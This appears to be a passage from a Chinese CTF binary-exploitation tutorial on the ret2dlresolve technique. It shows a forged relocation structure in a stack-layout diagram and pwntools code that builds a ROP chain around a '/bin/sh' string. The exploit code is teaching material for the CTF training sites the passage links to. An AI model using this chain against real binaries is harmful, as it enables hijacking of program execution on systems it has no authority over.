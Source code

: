 ```
      0x1c  |       r_info        | 伪造的结构体成员变量r_info
            +---------------------+
       		|        aaaa         |  填充           
       		|        ....         |  填充          
       		|        aaaa         |  填充            
       		+---------------------+                
      0x50	|      /bin/sh        | /bin/sh字符串
       		+---------------------+ 
       		|        aaaa         |
       		|        ....         |              
       		|        aaaa         |           
   高地址位  +---------------------+

```



那么，由于是32位程序，因此每行都是四字节，那么结构体放在从0x14到0x50中间任何位置都行，因为都是使用“a”来填充的，不会对执行流程有影响，那么这里就写在了写在了0x18和0x1c的位置

那么伪造的结构题相对基地址的位移就是0x18，也就是24字节

那么：



index_offset = base_stage + 32 - .rel.plt



其中，.rel.plt的基地址可通过pwntools的ROP模块自动获取



那么此时代码：

```C
#获取.rel.plt地址
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr

#那么在base_stage + 24的位置存放伪造结构体，并计算index_offset
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = 0x507
 
#计算write函数的reloc_index
write_reloc_index = (elf.plt['write'] - plt0) / 16 - 1
#因为索引不能为float，那么修改成int即可
write_reloc_index = int(write_reloc_index) * 8




rop.raw(plt0)
#rop.raw(write_reloc_index)
rop.raw(index_offset)

#伪造write函数的ret addr
rop.raw('bbbb') #write函数的返回地址
rop.raw(1) #write函数的第一个参数
rop.raw(base_stage + 80) #write函数的第二个参数
rop.raw(len(sh)) #write函数的第三个参数
rop.raw(write_got)
rop.raw(r_info)
# rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))
#print rop.dump()可查看栈布局


# 发送此次利用链
```

[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"